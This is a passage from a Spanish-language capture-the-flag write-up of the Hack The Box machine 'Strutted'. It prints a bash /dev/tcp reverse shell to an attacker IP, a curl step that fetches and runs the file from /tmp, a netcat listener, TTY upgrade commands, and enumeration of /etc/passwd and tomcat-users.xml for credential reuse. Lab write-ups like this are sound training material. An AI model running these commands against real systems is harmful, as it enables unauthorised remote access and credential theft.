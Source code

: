 Primero en nuestra maquina atacante vamos a crear un archivo de extensión html en este caso, porque probé y funcionó de primera, va a contener código de una reverse Shell

```ruby
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.220/443 0>&1
```
Una vez hecho esto nos levantamos un servidor local con Python

![server_python](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/HTB/images/strutted/server_python.png)

De parte de la web Shell vamos a hacer lo siguiente
```ruby
curl 10.10.14.220:8000 -o /tmp/reverseshell
```
luego
```python
bash /tmp/revershell
```

OJO: para hacer eso deben estar en modo listening con netcat en la maquina atacante
```ruby
nc -nlvp <port>
```
![listening_netcat](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/HTB/images/strutted/listening_netcat.png)

Obtendremos una bash en nuestra maquina atacante, podemos hacer un tratamiento de la tty para operar mejor

```ruby
script /dev/null -c bash
stty raw echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```
## ESCALADA DE PRIVILEGIOS
Observamos el /etc/passwd y tenemos un usuario llamado james

![etc_passwd](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/HTB/images/strutted/etc_passwd.png)

Buscando vectores para una posible escalada de privilegios, no hemos encontrado permisos SUID, capabilties, procesos, ni con sudo -l
si buscamos por `tomcat-users.xml`, para ver si se contemplan mas usuarios como vimos al inicio, nos encontramos una ruta
![ruta_tomcatUsers](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/HTB/images/strutted/ruta_tomcat.png)
![tomcat_users](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/HTB/images/strutted/tomcat_users.png)

Podemos ver de nuevo al usuario admin pero con otra contraseña, recordando que ya habíamos tenido anteriormente que es esta:

![credenciales_anteriores](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/HTB/images/strutted/credenciales_anteriores.png)
